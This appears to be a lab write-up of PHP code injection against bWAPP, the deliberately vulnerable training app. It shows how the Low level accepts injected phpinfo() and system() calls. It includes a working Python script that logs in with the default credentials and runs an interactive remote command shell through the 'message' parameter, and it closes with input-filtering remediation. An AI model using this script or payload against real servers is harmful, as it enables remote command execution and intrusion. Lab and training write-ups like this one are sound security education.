




# 1. Low
In first arrived, we can see as belowing



After clicked on message button, the browser refresh the webpage and add the parameter `?message=<our_input>`, I tried to input with following value `message=phpinfo();` as POST method



After success running, I tried using `system()` to execute payload and it success. So that I built the script that make us easy to interact with the server through the server's response.



---
# 2. Medium
In this case, Medium and High level are using function `htmlspecialchars()` to filter our input. So could not bypass it.



---
# 3. Script Supported

```python
from urllib3.exceptions import InsecureRequestWarning  
from urllib.parse import quote, unquote  
import requests  
import urllib3  
import re  
  
urllib3.disable_warnings(InsecureRequestWarning)  
HOST_NAME = "http://bee.bug/"  
session = requests.session()  
session.verify = False  
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'  
session.headers['Accept'] = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'  
proxies = {"http": '127.0.0.1:8080', "https": '127.0.0.1:8080'}  
security_level = {"0": "Low", "1": "Medium", "2": "High"}  
  
  
def get_php_session():  
    username = 'bee'  
    password = 'bug'  
    header = session.headers.update({"Content-Type": "application/x-www-form-urlencoded"})  
    print('[+] Preparing Header: Content-Type": "application/x-www-form-urlencoded')  
    credential_parameters = f"login={username}&password={password}&security_level=0&form=submit"  
    print(f'[+] Preparing Login parameters: {credential_parameters}')  
    print(f'[*] Requesting with POST {HOST_NAME + "bWAPP/login.php"}')  
    response = session.post(HOST_NAME + "bWAPP/login.php", headers=header, data=credential_parameters,  
                            allow_redirects=False)  
    if response.status_code == 302:  
        print(f'   [{response.status_code}] Login Successfully with Username: {username} - Password: {password}')  
        print(f'   [{response.status_code}] Got PHPSESSID: {session.cookies["PHPSESSID"]}')  
        print(f'   [{response.status_code}] Got security_level: {security_level.get(session.cookies["security_level"])}')  
        print()  
        return session.cookies["security_level"]  
    else:  
        print('[-] False to authenticate. Try with another known credentials')  
  
  
def inject_code():  
    uri = 'bWAPP/phpi.php'  
    url = HOST_NAME + uri  
    print(f'[+] Requesting to: {url}')  
    user_input = input('   [*] PHP> ')  
    if 'exit' in user_input.lower() and len(user_input.replace(' ','')) == 4:  
        print('   [-] Exiting ...')  
        return 1  
    payload = ("'<pre>======================<br>';"  
               f"echo 'Your Command: {user_input}<br><br>';"  
               f"system('{user_input}');"  
               f"echo '======================</pre>';")  
    response = session.post(url, data=f'message={quote(payload)}')  
    if response.ok:  
        result = re.search("Your Command:.+?<br><br>(.+?)======================", response.text, re.S)  
        if result:  
            print(result.group(1))  
        else:  
            print('   [-] Command not found!')  
  
  
if __name__ == '__main__':  
    sec_level = get_php_session()  
    while True:  
        try:  
            if sec_level == "0":  
                if_exit = inject_code()  
                if if_exit:  
                    break  
            else:  
                print('[-] Medium and High level could not bypass because of using htmlspecialchars() function')  
        except KeyboardInterrupt:  
            break
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)